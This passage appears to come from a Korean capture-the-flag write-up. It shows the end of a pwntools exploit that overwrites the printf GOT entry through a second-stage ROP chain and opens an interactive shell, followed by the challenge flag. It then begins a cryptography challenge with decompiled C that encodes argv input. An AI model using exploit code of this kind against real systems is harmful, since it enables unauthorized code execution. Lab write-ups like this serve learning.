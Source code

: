 ```python
sys_got = read_got - read_offset

rop2 = ROP(elf)
rop2.read(0,elf.got['printf'],4)
rop2.call(win)

log.info('Stage2')

p.sendline(payload + str(rop2))
sleep(0.1)
p.sendline(p32(sys_got))
sleep(0.1)

p.interactive()
```

![](https://user-images.githubusercontent.com/32904385/63650909-bd7cd580-c78a-11e9-9057-45417d0a89c0.png)

**FLAG : `FLAG{This_is_got_overwrite}`**

<br />

# Cryptography

## 3AsYCrACK_M3

argv로 입력된 값이 encrypt되어 Cdm+V2^U`7 랑 같으면 플래그라고 한다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _BYTE *v4; // [rsp+10h] [rbp-20h]
  signed int v5; // [rsp+1Ch] [rbp-14h]
  char *s; // [rsp+20h] [rbp-10h]
  int i; // [rsp+2Ch] [rbp-4h]

  if ( argc != 2 )
  {
    puts("error");
    exit(0);
  }
  s = argv[1];
  v5 = strlen(argv[1]);
  if ( v5 > 20 )
  {
    puts("error");
    exit(0);
  }
  v4 = malloc(1uLL);
  *v4 = *s;
  for ( i = 0; i < v5 - 1; ++i )
    v4[i + 1] = s[i] + 2 * (s[i + 1] - s[i]) + 3;
  encrypt(s);
  printf("answer is %s\n", v4, argv);
  return 0;
}
```
